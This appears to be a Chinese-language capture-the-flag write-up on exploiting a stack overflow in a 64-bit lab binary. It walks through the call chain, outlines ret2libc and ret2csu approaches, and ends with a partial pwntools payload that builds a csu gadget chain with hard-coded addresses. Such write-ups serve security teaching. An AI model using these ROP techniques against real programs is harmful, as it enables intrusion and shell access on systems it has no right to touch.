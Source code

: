 ![image-20240423162506015](${images}/image-20240423162506015.png)

结果显示6b8是main函数，那么调用链成立：6b8->68e->63d

因为我们事先运行过函数，那么我们可以得知，程序会进入输入的函数，那么也就只有63d，拥有输入函数，先看main函数的内容

![image-20240423162914076](${images}/image-20240423162914076.png)

没有什么值得注意的，前往68e

![image-20240423163136416](${images}/image-20240423163136416.png)

也没有什么值得注意的，前往63d，注意这里是64位程序，那么这里就对63d函数传入了三个参数，rdi、rsi，rdx

![image-20240423175331640](${images}/image-20240423175331640.png)

那么read函数处就存在栈溢出，但我们在此程序没有看到system函数的调用，那么有以下思路：

1. 借用puts函数暴露read函数地址，查询libc，然后算出基地址，加system和"/bin/sh"字符串的地址，getshell，此过程需要能够构建成ROP链的gadgets，因此

2. 使用csu机制，即每次开始使用函数会对rbx/rbp/r12/r13/r14/r15赋值，r12是直接被调用的，然后单独再次使用r13的值传给rdx,r14的值传给rsi,r15的低32位传给rdi的低32位的值，然后高32位被置零，那么如果我们优先返回到0x40075a，然后将栈中的值构建成类似的，然后再溢出8位，覆盖retn到740，并注意rbp和rbx的值，那么我们就可以使用这个返回到任意函数了

   ![image-20240423182310101](${images}/image-20240423182310101.png)

   ![image-20240423181846566](${images}/image-20240423181846566.png)
   ![image-20240423182507841](${images}/image-20240423182507841.png)

![image-20240424171031332](${images}/image-20240424171031332.png)

那么此时构建的payload应该为：

![image-20240423185208167](${images}/image-20240423185208167.png)

```
offset = 0xc8+0x8
changereg_addr = 0x40075a
assignment_addr = 0x400740
read_got = 0x601028
bin_sh_addr = 0x601080
#rbx为0,rbp为1即可
#即rbx+1 = rbp
# r12作为被调用函数
# r13 = rdx，作为函数的第三个参数
# r14 = rsi，作为函数的第二个参数
# r15 = rdi，作为函数的第一个参数
#栈溢出+溢出到的地址+构建csu(rbx,rbp,r12,r13,r14,r15)
payload = b'a' * offset + p64(changereg_addr) + p64(0) + p64(1) + p64(read_got)+p64(8)+p64(bin_sh_addr)+p64(0)
```

![image-20240423212437877](${images}/image-20240423212437877.png)
